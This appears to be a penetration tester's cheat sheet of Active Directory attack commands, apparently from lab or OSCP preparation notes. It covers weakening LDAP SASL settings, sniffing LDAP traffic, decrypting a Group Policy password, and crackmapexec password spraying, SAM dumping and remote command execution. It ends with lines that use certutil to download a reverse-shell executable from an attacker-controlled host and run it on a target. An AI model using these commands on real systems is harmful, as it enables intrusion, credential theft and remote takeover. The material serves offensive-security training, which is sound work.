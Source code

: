 Now we can use the ldif file to patch our LDAP server using the following:
```bash
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

Capture traffic through tcpdump
```bash
sudo tcpdump -SX -i breachad tcp port 389
```


### gpp-decrypt(Groups.xml)
Group policy password
```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ                                            
```

### crackmapexec
```bash
# local auth
--local-auth

#smb
crackmapexec smb 192.168.x.x -u '' -p '' --pass-pol
crackmapexec smb 192.168.x.x -u '' -p '' --shares
crackmapexec smb 192.168.x.x -u 'guest' -p '' --shares

crackmapexec smb 192.168.x.x -u 'username' -p 'password' --shares
crackmapexec smb 192.168.x.x -u username.txt -p 'password' --continue-on-success
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam

#ssh
crackmapexec ssh 192.168.x.x -u 'username' -p 'password' --continue-on-success

#ftp
crackmapexec ftp 192.168.x.x -u "<% tp.frontmatter["USERNAME"] %>" -p "<% tp.frontmatter["PASSWORD"] %>" --continue-on-success

#mssql
crackmapexec mssql 192.168.x.x -u sql_svc -p Dolphin1
crackmapexec mssql 10.10.85.148 -u sql_svc -p Dolphin1 -d oscp.exam --get-file "C:\TEMP\SAM" SAM

#winrm
crackmapexec winrm 192.168.x.x -u "<% tp.frontmatter["USERNAME"] %>" -p '<% tp.frontmatter["PASSWORD"] %>' -d <% tp.frontmatter["DOMAIN"] %>  --continue-on-success
crackmapexec winrm 192.168.x.x  -u "<% tp.frontmatter["USERNAME"] %>" -H '' -d <% tp.frontmatter["DOMAIN"] %> --continue-on-success
proxychains -q crackmapexec winrm 172.16.80.21 -u Administrator -p 'vau!XCKjNQBv2$' -x 'certutil -urlcache -f http://192.168.45.176:8000/revshell7777.exe C:\Users\Public\revshell7777.exe'
proxychains -q crackmapexec winrm 172.16.80.21 -u Administrator -p 'vau!XCKjNQBv2$' -x 'C:\Users\Public\revshell7777.exe'
```
